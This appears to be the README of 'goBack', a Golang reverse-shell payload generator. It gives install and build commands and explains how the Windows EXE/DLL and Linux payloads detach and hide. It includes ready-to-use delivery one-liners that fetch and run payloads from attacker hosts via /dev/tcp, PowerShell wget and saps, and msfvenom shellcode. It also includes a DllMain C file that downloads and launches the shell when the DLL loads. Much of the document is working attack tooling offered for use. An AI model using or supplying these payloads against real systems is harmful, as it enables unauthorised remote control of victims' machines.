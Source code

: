 ######
goBack
######

| Golang Reverse Shell

|

***************
Getting started
***************

| goBack use Docker to build and move payloads to /var/www/html/

.. code-block:: bash

    sudo pipx install git+https://github.com/charlesgargasson/goback.git@main --global
    # sudo pipx upgrade goback --global
    # sudo pipx uninstall goback --global

|

.. code-block:: bash

    sudo goback -i 1.2.3.4 -p 1337
    sudo goback -p 1337 --protocol udp
    sudo goback -i tun0 -p 53

|
| By default goback generate payloads for tun0 interface on port 53.
| If tun0 is missing it will take the default gateway interface ip

.. code-block:: bash

    sudo goback

|

*************
Build options
*************

Old systems
***********

| New golang versions doesn't support old systems such as 2008/Windows7.
| You can set goBack to use golang 1.20 using the old option.
| Notice that builds with old versions support are more likely to get strike by AV, and PS have issues.

.. code-block:: bash

    sudo goback --old

|

*****************
Payloads behavior
*****************

Windows EXE
***********

| r.exe and r32.exe payloads will start a child process with CREATE_NEW_PROCESS_GROUP and DETACHED_PROCESS flags,
| then powershell.exe is started with CREATE_NO_WINDOW flag.

|

Windows DLL
***********

| r.dll and r32.dll payloads embed r32.exe. When the DLL init, it create and run r32.exe in current user's temp folder.
| If it fails, then the payload directly start cmd.exe with CREATE_NO_WINDOW flag, and will not survive the death of the parent process

|

Linux
*****

| The linux payload "r" restart detached with pgid.
| Then shell start in the following fallback order

- /bin/bash with /usr/bin/python pty
- /bin/bash
- /bin/sh

|

********
Features
********

| Reverseshell will connect back to you with a web request, press enter to start the shell.
| If you don't, the payload will try again 5 seconds later (you just have to start a new listener).

| Embedded commands

- goreset  : Kill session and start a new one (in the same connection)
- gocmd    : Same but with cmd//sh as shell  (usefull when encountering powershell/bash issues)
- gokillme : Gracefully kill session and leave (if connection ends, the process will terminate anyway)

|

****************
Payload delivery
****************

| goBack generate powershell and linux shell commands to download and execute reverseshell.
| Here is some extra commands ....

.. code-block:: bash

    # Linux - without curl/wget
    nc -lvnp 7777 < /var/www/html/r # ATTACKER SIDE, Wait for victim, then cancel to close connection
    F="/dev/shm/r";cat</dev/tcp/127.0.0.1/7777>$F;chmod 755 $F;$F # Target side

.. code-block:: bash

    # msfvenom windows x86 shellcode to call payload with powershell
    CMD='powershell "wget 4.3.2.1/r32.exe -o $env:TEMP\r.exe;saps $env:TEMP\r.exe"'
    msfvenom -a x86 --platform Windows -p windows/exec CMD="$CMD" -f python -b "\x00\x20" --smallest -v shellcode EXITFUNC=thread

.. code-block:: powershell

    powershell "wget 4.3.2.1/r.exe -o $env:TEMP\r.exe;saps -NoNewWindow $env:TEMP\r.exe"

|

*******
Handler
*******

| goBack support standard reverseshell handler such as netcat, with cleartext content.
|
| I made a reverseshell manager for additional features https://gitlab.com/charles.gargasson/rsm

- UDP support (and UDP payload download)
- (todo) Data encoding to hide content 
- (todo) File uploads/downloads 

|

************
Troubleshoot
************

Architecture
************

| When using x32 payload on x64 machines, powershell has limitations.
| Run the following command to get a x64 powershell.

.. code-block:: bash

    C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe

|

DLL
***

| If for some reason the golang init entrypoint of the DLL payload doesn't work as expected,
| or if you want the dll to detach from the initial process,
| you can try this DLL code to call the reverseshell 
| https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain

.. code-block:: bash

    cat <<'EOF'>exploit.c
    #include <windows.h>
    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
        switch(dwReason){
            case DLL_PROCESS_ATTACH:
                system("powershell -c \"wget 192.168.45.235/r32.exe -o $env:TEMP\\r.exe;saps -NoNewWindow $env:TEMP\\r.exe\"");
                break;
            case DLL_PROCESS_DETACH:
                break;
            case DLL_THREAD_ATTACH:
                break;
            case DLL_THREAD_DETACH:
                break;
        }
        return TRUE;
    }
    EOF

    x86_64-w64-mingw32-gcc exploit.c -shared -o exploit64.dll
    i686-w64-mingw32-gcc exploit.c -shared -o exploit32.dll

|

